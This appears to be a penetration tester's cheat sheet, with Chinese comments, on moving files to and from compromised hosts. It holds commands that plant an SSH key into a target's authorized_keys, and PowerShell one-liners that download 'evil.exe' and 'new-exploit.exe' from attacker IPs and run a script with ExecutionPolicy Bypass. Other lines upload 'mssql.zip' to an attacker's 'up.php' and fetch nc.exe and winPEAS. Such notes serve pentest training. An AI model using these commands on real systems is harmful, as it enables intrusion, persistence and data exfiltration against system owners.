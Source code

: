**ssh-scp**
```
#ssh pubkey login
ssh-keygen -t rsa -C "xxx@abc.com"

echo "ssh-rsa xxxxx" > ~/.ssh/authorized_keys //目标机上，将公钥内容生成auth key
ssh -i nameofkey xxx@192.168.0.10

scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

**powershell**

```
# download file 
powershell -c "(new-object
System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"


//kali 监听，接收ps1文件
sudo nc -nlvp 443 > recieving-file.ps1
powercat -c [remote ip] -p 443 -i c:\temp\ps.ps1

//echo to ps1
echo $webclient = New-Object System.Net.WebClient 
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

//powershell one-liner
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')

//download string，直接加载，不保存文件
powershell.exe "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.196/powerview.ps1', 'Get-SPN.ps1')"

//upload file， ps env
(New-Object System.Net.WebClient).UploadFile('http://192.168.119.196/up.php', 'mssql.zip')

powershell.exe "(New-Object System.Net.WebClient).UploadFile('http://192.168.119.196/up.php', 'mssql.zip')"

powershell -c "Invoke-WebRequest -Uri 'http://yourip/nc.exe' -OutFile 'C:\Users\Public\Downloads\nc.exe'

# Invoke-WebRequest
IWR http://10.10.14.10:9999/winPEASx64.exe -OutFile winPEASx64.exe
```
